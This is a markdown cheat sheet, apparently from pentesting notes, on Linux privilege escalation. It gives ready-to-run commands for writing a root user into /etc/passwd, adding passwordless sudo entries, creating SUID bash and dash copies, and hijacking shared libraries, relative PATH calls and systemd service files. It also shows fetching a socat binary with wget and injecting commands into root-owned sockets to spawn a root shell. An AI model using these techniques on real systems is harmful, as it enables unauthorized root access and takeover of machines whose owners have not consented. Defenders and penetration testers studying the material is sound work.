 # Privileges Exploitation

## Writable /etc/passwd

Create a new user entry in root group and append it to the /etc/passwd file

```bash
echo "<username>:$(openssl passwd <password>):0:0:/root:/root:/bin/bash" >> /etc/passwd
```

## Writable /etc/sudoers

Allow current user to invoke any program with sudo without needing the password

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

## Elevated shell with sticky bit

By exploiting an application running as root (for instance a database or a script) it is possible to obtain an elevated shell by executing the following commands within the elevated application:

```bash
cp /bin/dash /tmp/<file>
chmod u+s /tmp/<file>
#execute the elevated shell
/tmp/<file> -p
```

## SUID exploit

### Built-in exploitable binaries

{% embed url="https://gtfobins.github.io/" %}

### Shared library hijack

#### check for missing .so files

```bash
strace <binary> 2>&1 | grep -i -E "open|access|no such file"
ldd <file> | grep "not found"
```

#### Shared library code

Put the file in the path of the missing library or replace it if you can write in the folder.

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

#### Compile as

```bash
gcc -shared -o <path to library> -fPIC <file>.c
```

### Relative path hijack

#### Find calls to system binaries in executable file

Search for calls to executables with relative paths, for instance instead of `/bin/cp` look for `cp`

```bash
strings <file>    #static calls
ltrace <file>     #library calls during execution
```

#### boilerplate code

```bash
#include <stdio.h>
#include <stdlib.h>

int main(){
setresuid(0,0,0);
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
return 0;
}
```

#### compile and execute

Add the /tmp folder to the $PATH variable and compile the malicious program with the same name as the relative path executable invoked in the vulnerable executable. In this way the generated malicious program will be detected and executed before the system one.

```bash
export $PATH=/tmp:$PATH
gcc -o /tmp/<name>.so <name>.c -s --static
/<path to vuln binary>
```

## Writable service files

Can be found by searching for .service files with write permission or by checking write permissions with sudo -l

### File template

the Exec\* instructions can be hijacked to execute arbitrary scripts

```
[Unit]
Description=The NGINX HTTP and reverse proxy server
After=syslog.target network.target remote-fs.target nss-lookup.target

[Service]
Type=forking
PIDFile=/run/nginx.pid
ExecStartPre=/usr/sbin/nginx -t
ExecStart=/usr/sbin/nginx
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s QUIT $MAINPID
PrivateTmp=true

[Install]
WantedBy=multi-user.target
```

The basic structure of a service file is the following:

```
[Unit]
Description=Foo

[Service]
ExecStart=/usr/sbin/foo-daemon

[Install]
WantedBy=multi-user.target
```

### Manage services

```
which <deamon>                    get the path to the running deamon
sudo systemctl start <deamon>     start deamon        
sudo systemctl stop <deamon>      stop deamon
sudo systemctl restart <deamon>   restart deamon
systemctl status <deamon>         get status info
sudo systemctl enable <deamon>    launch deamon on startup
journalctl -u <deamon>            access logs for given deamon
```

## Socket Code Injection

When an application creates a socket running under root it is possible to send commands to the socket to create a suid-privileged shell and escalate privileges.  These applications can be recognized because they create a .s file in a specific folder (usually /tmp)

If the target machine does not have socat installed execute the following command

```
wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true && chmod +x ./socat
```

Run the application to spawn the socket then execute the following commands to spawn a privileged shell

```
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:<path to socket file>
/tmp/bash
```
